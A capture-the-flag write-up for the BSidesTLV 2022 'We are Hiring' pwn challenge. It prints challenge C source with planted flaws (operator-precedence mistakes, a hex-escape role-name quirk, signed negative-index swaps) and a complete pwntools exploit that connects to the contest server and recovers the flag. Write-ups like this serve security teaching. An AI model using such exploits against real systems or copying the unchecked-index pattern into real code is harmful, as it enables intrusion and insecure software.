


## We are Hiring: pwn (200)

### Description/Source

```c
/*

    #####################################################################
    # Binary on server compiled with:                                   #
    #                                                                   #
    # gcc main.c -o main -fno-stack-protector -no-pie                   #
    #                                                                   #
    #####################################################################


*/

#include <stdio.h>
#include <stdbool.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

#define SWAP(arr, index1, index2) {arr[index1] ^= arr[index2]; arr[index2] ^= arr[index1]; arr[index1] ^= arr[index2];}
#define COUNTOF(arr) sizeof(arr) / sizeof(arr[0])

#define HOME_ASSIGNMENT_LEN 16
#define ROLE_LEN 16
#define NUM_ROLES 4
#define FLAG_BUFFER 64
#define BUFFER_LEN 64

#pragma pack(1)

typedef struct
{
    uint32_t canary;
    char     role[ROLE_LEN];
    uint8_t  work_from_home_allowed;
    uint16_t num_openings;
    uint8_t  reserved;
} open_role_t;

typedef struct
{
    char            home_assignment_solution[HOME_ASSIGNMENT_LEN];
    char            home_assignment_attempt[HOME_ASSIGNMENT_LEN];
    char            role[ROLE_LEN];
    open_role_t     roles[NUM_ROLES];
} context_t;

#pragma pack()

context_t g_context;
char* g_flag = NULL;

uint32_t get_random(uint32_t min_number, uint32_t max_number)
{
    return rand() % (max_number + 1 - min_number) + min_number;
}

void shuffle(char* array, size_t n)
{
    int i, j;
    for (int i = 0; i < n; i++)
    {
        do
        {
            j = rand() % n;
        } while (j == i);

        SWAP(array, i, j);
    }
}

int init(void)
{
    int             urandom_fd;
    unsigned int    seed;
    int             result;
    int             i;
    FILE*           p_file = NULL;

    setbuf(stdout, NULL);

    urandom_fd = open("/dev/urandom", O_RDONLY);
    if (urandom_fd < 0)
    {
        result = -1;
        goto exit;
    }

    result = read(urandom_fd, &seed, sizeof(seed));
    if (result < 0)
    {
        goto exit;
    }

    srand(seed);

    for (i = 0; i < HOME_ASSIGNMENT_LEN; i++)
    {
        g_context.home_assignment_solution[i] = get_random('!', '}');
    }

    memcpy(g_context.home_assignment_attempt, g_context.home_assignment_solution, HOME_ASSIGNMENT_LEN);
    shuffle(g_context.home_assignment_attempt, HOME_ASSIGNMENT_LEN);

    memcpy(&g_context.roles[0], "\x00\xff\x0d\x0aPROGRAM_MANAGR\x00\x00\x01\x00\x00\x00", sizeof(open_role_t));
    memcpy(&g_context.roles[1], "\x00\xff\x0d\x0aVP_RSRCH_N_DEV\x00\x00\x00\x00\x00\x00", sizeof(open_role_t));
    memcpy(&g_context.roles[2], "\x00\xff\x0d\x0aFULL_STACK_DEV\x00\x00\x01\x00\x01\x00", sizeof(open_role_t));
    memcpy(&g_context.roles[3], "\x00\xff\x0d\x0aSECURITY_RSRCH\x00\x00\x01\x00\x00\x00", sizeof(open_role_t));

    g_flag = malloc(FLAG_BUFFER);
    if (g_flag == NULL)
    {
        result = -1;
        goto exit;
    }

    p_file = fopen("flag.txt", "r");
    if (p_file == NULL)
    {
        result = -1;
        goto exit;
    }

    if (fgets(g_flag, FLAG_BUFFER, p_file) == NULL)
    {
        result = -1;
        goto exit;
    }

    result = 0;

exit:
    if (result < 0)
    {
        if (g_flag != NULL)
        {
            free(g_flag);
            g_flag = NULL;
        }
    }

    if (p_file != NULL)
    {
        fclose(p_file);
        p_file = NULL;
    }

    return result;
}

bool check_home_assignment(void)
{
    return memcmp(g_context.home_assignment_solution, g_context.home_assignment_attempt, HOME_ASSIGNMENT_LEN) == 0;
}

bool check_job_availability(char* p_user_name)
{
    int i;

    for (i = 0; i < NUM_ROLES; i++)
    {
        if (strncmp(p_user_name, g_context.roles[i].role, ROLE_LEN) == 0)
        {
            if (g_context.roles[i].num_openings > 0)
            {
                return true;
            }
        }
    }

    return false;
}

bool is_candidate_lucky(int choice)
{
    ssize_t result;
    uint32_t random_number;

    random_number = get_random(0, RAND_MAX);

    switch (choice)
    {
        case 1:
            return ((random_number + 34531 == 3648276) && (random_number ^ 2541235 == 283749));
        case 2:
            return ((random_number - 124551 == 9238721) && (random_number * 12314 == 362464));
        case 3:
            return ((random_number * 838357 == 124531) && (random_number | 3456342 == 1127846));
        case 4:
            return ((random_number / 6456245 == 2412356) && (random_number & 3422424 == 623543));
        case 5:
            return ((random_number - 7357543 == 354123) && (random_number + 5234523 == 52345233));
        case 6:
            return ((random_number ^ 2412341 == 616312) && (random_number | 1234125 == 1346123));
        case 7:
            return ((random_number + 6234623 == 5123512) && (random_number % 91823791 == 236419));
        case 8:
            return ((random_number & 3278464 == 9879878) && (random_number ^ 2341234 == 9827349));
        case 9:
            return ((random_number - 0707234 == 8372834) && (random_number / 1342341 == 03123417));
        default:
            return false;
    }

}

void set_role(void)
{
    printf("Please enter the requested role\n> ");
    if (fgets(g_context.role, ROLE_LEN, stdin) == NULL)
    {
        printf("\nError reading role!\n");
        return;
    }

    g_context.role[strcspn(g_context.role, "\n")] = '\0';

    printf("You're applying for: %s\n", g_context.role);

}

void view_assignment(void)
{
    int i = 0;

    printf("\nYour current string is:\n");
    for (i = 0; i < HOME_ASSIGNMENT_LEN; i++)
    {
        printf("%c", g_context.home_assignment_attempt[i]);
    }
    printf("\nIt needs to be identical to the original.\n");
}


void swap_indices(void)
{
    int index[2] = {0};
    int result;

    int i;

    for (i = 0; i < COUNTOF(index); i++)
    {
        printf("\nEnter index %d:\n> ", i + 1);
        result = scanf(" %d", &index[i]);

        if (result)
        {
            if (index[i] >= HOME_ASSIGNMENT_LEN)
            {
                printf("Invalid index!\n");
                while(getchar() != '\n');
                return;
            }

            if ( (i == 1) && (index[0] == index[1]) )
            {
                goto success;
            }
        }
    }

    SWAP(g_context.home_assignment_attempt, index[0], index[1]);

success:
    printf("Swapped indices.\n");
    while(getchar() != '\n');
}

void apply_job(void)
{
    int result;
    int operation;

    printf("\nWe only hire lucky candidates.\nEnter a number:\n> ");
    result = scanf(" %d", &operation);
    while(getchar() != '\n');

    if (result)
    {
        if (is_candidate_lucky(operation) && check_job_availability(g_context.role) && check_home_assignment() )
        {
            fprintf(stdout, "\nCongratulations, you're hired! The flag is: %s\n", g_flag);
            return;
        }
    }

    printf("\nYou failed, better luck next time...");
}


bool menu(void)
{
    char menu_option;
    bool ret = true;

    printf("\nWhat would you like to do?\n");
    printf("1. Select the role you'd like to apply to\n");
    printf("2. View the current state of the home assignment\n");
    printf("3. Swap indices in your home assignment\n");
    printf("4. Apply for the job\n");
    printf("5. Quit\n");

    printf("> ");

    menu_option = getchar();
    while(getchar() != '\n');

    printf("\n");

    switch (menu_option)
    {
        case '1':
            set_role();
            break;
        case '2':
            view_assignment();
            break;
        case '3':
            swap_indices();
            break;
        case '4':
            apply_job();
            break;
        case '5':
            ret = false;
            break;
        default:
            printf("Invalid choice!\n");
            break;
    }

    return ret;
}

int main(int argc, char* argv[])
{
    int status = 0;

    status = init();
    if (status != 0)
    {
        printf("Error during initialization, please contact admin.\n");
        return -1;
    }

    printf("\n");
    printf("  /$$$$$$            /$$                           /$$   /$$ /$$$$$$$$ /$$$$$$$$ \n");
    printf(" /$$__  $$          | $$                          | $$$ | $$| $$_____/|__  $$__/ \n");
    printf("| $$  \\__/ /$$   /$$| $$$$$$$   /$$$$$$   /$$$$$$ | $$$$| $$| $$         | $$    \n");
    printf("| $$      | $$  | $$| $$__  $$ /$$__  $$ /$$__  $$| $$ $$ $$| $$$$$      | $$    \n");
    printf("| $$      | $$  | $$| $$  \\ $$| $$$$$$$$| $$  \\__/| $$  $$$$| $$__/      | $$    \n");
    printf("| $$    $$| $$  | $$| $$  | $$| $$_____/| $$      | $$\\  $$$| $$         | $$    \n");
    printf("|  $$$$$$/|  $$$$$$$| $$$$$$$/|  $$$$$$$| $$      | $$ \\  $$| $$         | $$    \n");
    printf(" \\______/  \\____  $$|_______/  \\_______/|__/      |__/  \\__/|__/         |__/    \n");
    printf("           /$$  | $$                                                             \n");
    printf("          |  $$$$$$/                                                             \n");
    printf("           \\______/                                                              \n");

    printf("\nWe're hiring!\n");
    printf("Do you want to join an young and static team with random opportunities for growth?\n");
    printf("Go ahead and complete our home assignment.\n");
    printf("It should just take a few mintues, if you have the basic skill of random number prediction.\n");
    printf("Otherwise, well, just (%d!) permutations to try, shouldn't take more than a few years.\n", HOME_ASSIGNMENT_LEN);

    while(menu());

    return 0;
}
```

- (This is what I mean by high effort challenges, almost 400 lines of C code for a 200 pt challenge hahah)
- I am so glad they gave the source rather than the binary

There are 3 checks that we have to bypass if we want to solve the challenge

```javascript
is_candidate_lucky(operation) &&
  check_job_availability(g_context.role) &&
  check_home_assignment();
```

#### Check 1:

```c
bool is_candidate_lucky(int choice)
{
    ssize_t result;
    uint32_t random_number;
    random_number = get_random(0, RAND_MAX);
    switch (choice)
    {
        case 1:
            return ((random_number + 34531 == 3648276) && (random_number ^ 2541235 == 283749));
        case 2:
            return ((random_number - 124551 == 9238721) && (random_number * 12314 == 362464));
        case 3:
            return ((random_number * 838357 == 124531) && (random_number | 3456342 == 1127846));
        case 4:
            return ((random_number / 6456245 == 2412356) && (random_number & 3422424 == 623543));
        case 5:
            return ((random_number - 7357543 == 354123) && (random_number + 5234523 == 52345233));
        case 6:
            return ((random_number ^ 2412341 == 616312) && (random_number | 1234125 == 1346123));
        case 7:
            return ((random_number + 6234623 == 5123512) && (random_number % 91823791 == 236419));
        case 8:
            return ((random_number & 3278464 == 9879878) && (random_number ^ 2341234 == 9827349));
        case 9:
            return ((random_number - 0707234 == 8372834) && (random_number / 1342341 == 03123417));
        default:
            return false;
    }
}
```

- If you evaluate all the possible statements, you'll realize that they're all impossible
- However, the weakness comes from how `c` code takes priority among the different operators. By compiling and testing that particular section of code, we can see from the warnings how `c` will interpret those expressions



- So we can see that the operators `&|^` all have lower precedence than the `==` operator so using case 6 will always result in a truthy value
  `return ((random_number ^ 2412341 == 616312) && (random_number | 1234125 == 1346123));`

#### Check 2

```c
typedef struct
{
    uint32_t canary;
    char     role[ROLE_LEN];
    uint8_t  work_from_home_allowed;
    uint16_t num_openings;
    uint8_t  reserved;
} open_role_t;
...
memcpy(&g_context.roles[0], "\x00\xff\x0d\x0aPROGRAM_MANAGR\x00\x00\x01\x00\x00\x00", sizeof(open_role_t));
memcpy(&g_context.roles[1], "\x00\xff\x0d\x0aVP_RSRCH_N_DEV\x00\x00\x00\x00\x00\x00", sizeof(open_role_t));
memcpy(&g_context.roles[2], "\x00\xff\x0d\x0aFULL_STACK_DEV\x00\x00\x01\x00\x01\x00", sizeof(open_role_t));
memcpy(&g_context.roles[3], "\x00\xff\x0d\x0aSECURITY_RSRCH\x00\x00\x01\x00\x00\x00", sizeof(open_role_t));
...
bool check_job_availability(char* p_user_name)
{
    int i;
    for (i = 0; i < NUM_ROLES; i++)
    {
        if (strncmp(p_user_name, g_context.roles[i].role, ROLE_LEN) == 0)
        {
            if (g_context.roles[i].num_openings > 0)
            {
                return true;
            }
        }
    }
    return false;
}
```

- Basically there are 4 possible roles,

1. PROGRAM_MANAGR
2. VP_RSRCH_N_DEV
3. FULL_STACK_DEV
4. SECURITY_RSRCH

- If you examine the struct of the open_role_t
- only FULL_STACK_DEV has 1 opening, however keying in FULL_STACK_DEV as the role does not satisfy the job availability check
  0 the reason is that the last byte of the canary takes the first character of that role as it is a hex character - `\x0aFULL...` == `\xafULL...`
- So the way to bypass the check is to pass in the role of `ULL_STACK_DEV`

#### Check 3

```c
#define SWAP(arr, index1, index2) {arr[index1] ^= arr[index2]; arr[index2] ^= arr[index1]; arr[index1] ^= arr[index2];}


uint32_t get_random(uint32_t min_number, uint32_t max_number)
{
    return rand() % (max_number + 1 - min_number) + min_number;
}

void shuffle(char* array, size_t n)
{
    int i, j;
    for (int i = 0; i < n; i++)
    {
        do
        {
            j = rand() % n;
        } while (j == i);

        SWAP(array, i, j);
    }
}

...
urandom_fd = open("/dev/urandom", O_RDONLY);
if (urandom_fd < 0)
{
    result = -1;
    goto exit;
}

result = read(urandom_fd, &seed, sizeof(seed));
if (result < 0)
{
    goto exit;
}

srand(seed);

for (i = 0; i < HOME_ASSIGNMENT_LEN; i++)
{
    g_context.home_assignment_solution[i] = get_random('!', '}');
}

memcpy(g_context.home_assignment_attempt, g_context.home_assignment_solution, HOME_ASSIGNMENT_LEN);
shuffle(g_context.home_assignment_attempt, HOME_ASSIGNMENT_LEN);
...

void swap_indices(void)
{
    int index[2] = {0};
    int result;
    int i;
    for (i = 0; i < COUNTOF(index); i++)
    {
        printf("\nEnter index %d:\n> ", i + 1);
        result = scanf(" %d", &index[i]);

        if (result)
        {
            if (index[i] >= HOME_ASSIGNMENT_LEN)
            {
                printf("Invalid index!\n");
                while(getchar() != '\n');
                return;
            }
            if ( (i == 1) && (index[0] == index[1]) )
            {
                goto success;
            }
        }
    }
    SWAP(g_context.home_assignment_attempt, index[0], index[1]);
}

void view_assignment(void)
{
    int i = 0;

    printf("\nYour current string is:\n");
    for (i = 0; i < HOME_ASSIGNMENT_LEN; i++)
    {
        printf("%c", g_context.home_assignment_attempt[i]);
    }
    printf("\nIt needs to be identical to the original.\n");
}
```

- We are given a string of 16 bytes as the current assignment which has been scrambled beforehand using `/dev/urandom`
- the seed is not predictable, and the randomization seems secure
- The vulnerability is in the ability that we have to swap indices. It takes in a signed integer, such that we can swap bytes using negative indices

```c
result = scanf(" %d", &index[i]);
```

- examining the actual memory in pwndbg, we can see that the target home assignment lies in the first 16 bytes of the struct and the current assignment we have lies from bytes 17-32



- Taking note of endianness, first we swap the current assignment with the target assignment so that we have knowledge of both the target and the current (which are now flipped that all their bytes have been swapped)

```python
swap(15,-1)
swap(14,-2)
swap(13,-3)
swap(12,-4)
swap(11,-5)
swap(10,-6)
swap(9,-7)
swap(8,-8)
swap(7,-9)
swap(6,-10)
swap(5,-11)
swap(4,-12)
swap(3,-13)
swap(2,-14)
swap(1,-15)
swap(0,-16)
```

After that try to rearrange the original target assignment (which is now the current home assignment) to match the original current assignment (which is now the target assignment)

```python
arr = list(payload)
target_arr = list(target)
for i in range(16):
  if arr[i] == target_arr[i]: continue
  desired_idx = arr.index(target_arr[i])
  swap(i,desired_idx)

  arr[i],arr[desired_idx] = arr[desired_idx], arr[i]
  assert arr[i] == target_arr[i]
```

- I make sure that the home_assignment target are all unique characters to make this process easier

And with that we've bypassed all the checks! Now putting it all together in a solution script

### Solver

```python
from pwn import *


host, port = "wearehiring.ctf.bsidestlv.com", 8080
p = remote(host, port)
p.sendlineafter(b'> ',b'2')
p.recvuntil(b'is:\n')
target = p.recvline().strip()
print("target:",target)

# make the swapping life easier by ensuring unique characters
if len(set(target)) != 16:
  p.close()
  print("Trying again\n")
  p = remote(host, port)
  p.sendlineafter(b'> ',b'2')
  p.recvuntil(b'is:\n')
  target = p.recvline().strip()
  print("target:",target)

def swap(i1,i2):
  p.sendlineafter(b'> ', b'3')
  p.sendlineafter(b'> ', str(i1).encode())
  p.sendlineafter(b'> ', str(i2).encode())
  print(p.recvline(), i1,i2)

swap(15,-1)
swap(14,-2)
swap(13,-3)
swap(12,-4)
swap(11,-5)
swap(10,-6)
swap(9,-7)
swap(8,-8)
swap(7,-9)
swap(6,-10)
swap(5,-11)
swap(4,-12)
swap(3,-13)
swap(2,-14)
swap(1,-15)
swap(0,-16)


p.sendline(b'2')
p.recvuntil(b'is:\n')
payload = p.recvline().strip()
print("payload:",payload)


arr = list(payload)
target_arr = list(target)
for i in range(16):
  if arr[i] == target_arr[i]: continue
  desired_idx = arr.index(target_arr[i])
  swap(i,desired_idx)

  arr[i],arr[desired_idx] = arr[desired_idx], arr[i]
  assert arr[i] == target_arr[i]


p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'ULL_STACK_DEV')
print(p.recvline())

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b'> ', b'6')
p.interactive()
```

### Flag

```
BSidesTLV2022{W3_h4v3_24_f1@v0rz_0F_1CE!}
```
